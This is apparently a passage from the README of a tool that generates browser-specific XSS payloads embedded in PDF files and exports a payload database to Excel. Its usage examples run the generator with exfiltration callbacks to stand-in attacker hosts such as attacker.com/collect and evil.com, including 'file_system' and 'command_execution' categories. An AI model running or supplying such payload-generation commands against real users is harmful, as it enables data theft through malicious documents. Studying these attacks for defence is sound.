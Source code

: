 ### Usage
```bash
# Export payload database to Excel format
python3 export_to_excel.py

# Generated file: xss_pdf_payload_database_YYYYMMDD_HHMMSS.xlsx
```

### Excel Sheet Contents
- **All Payloads**: Complete database with all payload information
- **Browser Sheets**: Chrome, Firefox, Safari, Adobe, Edge specific payloads
- **Category Analysis**: Breakdown by attack category (DOM access, file system, etc.)
- **CVE References**: Security vulnerability references and affected components
- **Research Summary**: Methodology, sources, and legal framework

## 📋 Usage Examples

### Basic Usage
```bash
# Navigate to the PDF directory
cd PDF

# Generate Chrome-specific payloads
python3 script.py -b chrome -u http://attacker.com/collect

# Generate all browser payloads with data exfiltration
python3 script.py -b all -u https://webhook.site/xyz

# Target specific payload category
python3 script.py -b firefox --category file_system -u http://evil.com

# Limit number of payloads generated
python3 script.py -b adobe --count 50 -u http://collector.com
```

### Advanced Usage
```bash
# Navigate to the PDF directory first
cd PDF

# Export payload database as JSON
python3 script.py -b all --output-json

# Verbose output with payload details
python3 script.py -b safari -u http://test.com -v

# List research sources and CVE references
python3 script.py --list-research

# Filter by specific categories
python3 script.py -b chrome --category command_execution -u http://log.site

# Use the alternative script for browser-specific PDFs
python3 Another-Script.py -b chrome -u http://test.com
```
